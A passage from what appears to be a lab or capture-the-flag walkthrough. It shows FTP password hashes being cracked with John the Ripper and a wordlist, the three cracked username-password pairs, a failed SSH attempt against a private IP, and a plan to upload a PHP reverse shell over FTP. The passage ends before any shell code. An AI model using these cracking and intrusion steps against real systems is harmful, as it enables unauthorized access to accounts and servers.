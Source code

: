 ![](/images/2012-04-09/05.png)

I exported these into a text file and cleaned up the quotes around the strings. I passed these to john for cracking using a wordlist I obtained from http://contest-2010.korelogic.com/wordlists.html. If I could get one login, I might be able to SSH or FTP into the server.

```
# /pentest/passwords/john/john --wordlist=/wordlists/rockyou.txt ftppass 
```

After a while, three passwords were cracked:

```
cbergey:chatterbox1:1031:2002::/home/cbergey/./::::::::::::
tmartin:millionaire:1031:2002::/home/tmartin/./::::::::::::
ahuxley:bravenewworld:1031:2002::/home/ahuxley/./::::::::::::
```

It was time to try logging in.

```
# ssh ahuxley@192.168.1.88
ahuxley@192.168.1.88's password: 
Permission denied, please try again.
ahuxley@192.168.1.88's password: 
Permission denied, please try again.
ahuxley@192.168.1.88's password: 
```

SSH didn't work, but FTP proved to be more rewarding. I was able to FTP in as ahuxley, and knowing that I could read files and thus launch PHP files once I'd uploaded them into the FTP server, I would be able to launch a PHP reverse shell and gain shell access into the server:
